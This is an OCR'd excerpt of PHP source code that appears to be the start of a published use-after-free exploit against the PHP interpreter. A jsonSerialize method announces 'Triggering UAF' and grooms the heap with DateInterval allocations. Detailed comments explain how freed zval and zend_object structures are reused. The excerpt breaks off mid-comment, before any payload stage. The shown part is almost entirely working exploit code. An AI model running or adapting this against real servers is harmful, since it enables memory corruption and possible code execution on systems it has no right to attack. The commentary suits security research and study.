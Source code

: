     class Z implements JsonSerializable
    {
        public function jsonSerialize()
        {
            global $y, $addresses, $workers_pids;

            #
            # Setup memory
            #
            o('Triggering UAF');
            o('  Creating room and filling empty spaces');

            # Fill empty blocks to make sure our allocations will be contiguous
            # I: Since a lot of allocations/deallocations happen before the script
            # is ran, two variables instanciated at the same time might not be
            # contiguous: this can be a problem for a lot of reasons.
            # To avoid this, we instanciate several DateInterval objects. These
            # objects will fill a lot of potentially non-contiguous memory blocks,
            # ensuring we get "fresh memory" in upcoming allocations.
            $contiguous = [];
            for($i=0;$i<10;$i++)
                $contiguous[] = new DateInterval('PT1S');

            # Create some space for our UAF blocks not to get overwritten
            # I: A PHP object is a combination of a lot of structures, such as
            # zval, zend_object, zend_object_handlers, zend_string, etc., which are
            # all allocated, and freed when the object is destroyed.
            # After the UAF is triggered on the object, all the structures that are
            # used to represent it will be marked as free.
            # If we create other variables afterwards, those variables might be